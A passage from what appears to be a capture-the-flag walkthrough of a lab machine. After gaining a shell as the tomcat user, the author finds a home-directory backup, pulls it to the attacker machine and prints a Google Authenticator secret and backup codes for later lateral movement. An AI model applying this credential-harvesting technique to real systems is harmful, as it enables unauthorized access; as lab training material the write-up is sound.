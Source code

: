 When that runs we get a shell as the `tomcat` user and can grab the `user.txt` flag from the `/opt/tomcat` directory. 
## Lateral Movement

Looking around the file system, we find a backups directory in the `/home/useradmin` folder. 

```console
tomcat@manage:/home/useradmin/backups$ ls -la
ls -la
total 12
drwxrwxr-x 2 useradmin useradmin 4096 Jun 21 16:51 .
drwxr-xr-x 5 useradmin useradmin 4096 Jun 21 16:51 ..
-rw-rw-r-- 1 useradmin useradmin 3088 Jun 21 16:50 backup.tar.gz
```

We can transfer that `bacckup.tar.gz` file over to our attacker machine and extract it. once we've done that, we find what appears to be a backup of the `useradmin` home directory. 

```console
➜  backups $ ls -la
total 22
drwxrwxrwx 1 root root 4096 Jun 21 11:48 .
drwxrwxrwx 1 root root 4096 Jun 28 16:49 ..
drwxrwxrwx 1 root root    0 Jun 21 11:48 .cache
drwxrwxrwx 1 root root 4096 Jun 21 10:53 .ssh
-rwxrwxrwx 1 root root  220 Jun 21 10:46 .bash_logout
-rwxrwxrwx 1 root root 3771 Jun 21 10:46 .bashrc
-r-xr-xr-x 1 root root  200 Jun 21 11:48 .google_authenticator
-rwxrwxrwx 1 root root  807 Jun 21 10:46 .profile
-rwxrwxrwx 1 root root 3088 Jun 21 11:50 backup.tar.gz
```

That `.google_authenticator` file looks interesting. Checking that out, it seems to contain some backup codes and maybe a secret to set up Google Authenticator for generating Time-based One-Time Passwords (TOTP). Set this aside for now; we'll need these later on.

```console
➜  backups $ cat .google_authenticator
CLSSSMHYGLENX5HAIFBQ6L35UM
" RATE_LIMIT 3 30 1718988529
" WINDOW_SIZE 3
" DISALLOW_REUSE 57299617
" TOTP_AUTH
99852083
20312647
73235136
92971994
86175591
98991823
54032641
69267218
76839253
56800775
```
